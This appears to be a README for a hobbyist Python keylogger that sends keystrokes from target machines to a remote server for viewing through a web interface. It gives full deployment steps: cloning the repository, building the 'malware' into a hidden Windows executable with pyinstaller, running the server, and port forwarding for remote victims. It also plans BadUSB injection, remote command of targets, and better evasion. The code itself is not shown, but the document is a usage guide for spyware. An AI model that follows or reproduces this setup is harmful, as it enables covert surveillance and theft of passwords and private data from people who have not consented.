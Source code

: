 # Keylogger

A keylogger made to send keystrokes to a remote server for it to then be accessed from a web interface.

There are many things to work on including mainly reliability but I am overall pretty happy with it. Dont expect some kind of crazy UI or functions, this is really bare bones and I made it for the sole purpose of leveling up my python skills. I also found the idea really neat and coudlnt find a good alternative ... so I made my own one.

It all started when I was looking into botnets and how to make my own one, but I quickly found out that the only ones that I had access to (at the time) was BYOB and Covenant. BYOB was outdated, was a pain to set up, didnt work and the comunity also gave up after trying to consult my problem in the discord. Covenant did work really nicely (when setting up) tho it was lacking features BYOB had and didnt work for me. So I decided to start with a keylogger. I (probbably) will make more of these tools like this keylogger and eventually will put it into a one big interface. But that has years to come since I still need to finish high school. :/

I will be updating this project and here are things you should be stayed tuned for:
* More reliable and secure connection and transfer
* Two way interactions (so you can write, modify, send commands to the targets for them to then behave like that (Ex. Stop for 15 min))
* Having a BadUSB payload to inject the malware
* Better UI (in desperate need please someone could help me I barely know HTML)
* Improved its under-the-radar ability (windows updates in the future may brick it)


## What will you need:

You will need:
* Linux server (RPI2 works well enough)
* Central computer (Your personal just for setting up)
* Internet connection (Preferably wired)
* Ability to port forward (Ik but there isnt a better way right now)

Optional:
* USB flash drive (To load your keylogger onto a target machine physicaly)
* USB RubberDucky (Also an option instead of a flash drive)
* Third PC (If you can it is recomended to test everything out)   

## How to set up:
* SSH into the server of your choice. (Can be done on windows but is made for linux)
* Run this command:
```
git clone https://github.com/Gablak/keylogger
```
* After that cd into:
```
cd keylogger
```
* Here you have an installme script. Everything has been tested only with python 3.12 but it might work on newer versions. Run the installme by doing:
```
python3.12 installme.py
```
* It will prompt you for an IP address. This is going to be the IP of the server. By typing "auto" it will automaticaly get your public IP or you can type your own one if you want to test it out on a LAN netwok.
```
auto
```
* After that you cd out:
```
cd ..
```
* Cd into:
```
cd Client
```
* Here we will create the executable. If you do "ls" you can see there is target.py. Thats the "malware". To make it executable type:
```
pyinstaller --onefile --windowed target.py
```
* Wait till it finishes and you will have a bunch of files and directories. Cd into:
```
cd dist
```
* Here is your .exe file. Download it using filezila or your usb onto your PC. After that do:
```
cd ..
cd ..
cd Server
```
* Now type "ls". You will be able to see a few things but the most important are:
* start.sh    - for starting the server and the web UI
* stop.sh     - for killing both of the processes
* check.sh    - for checking the state of the server and the UI
```
./start.sh
```
* Now you are all set and running. Just execute the .exe and see if its working!
* Also go to this website for the UI:
```
http://192.168.XX.XXX:3500/
```
* Basicaly the local IP of the server.
## How to make it work outside of your network
For that you will need to port forward. Every router has it diffrently, therefore I will not show how to port forward here. The ports to forward are 3500 and 4500, target IP address wil be the local IP of your server. That should be all, enjoy :)

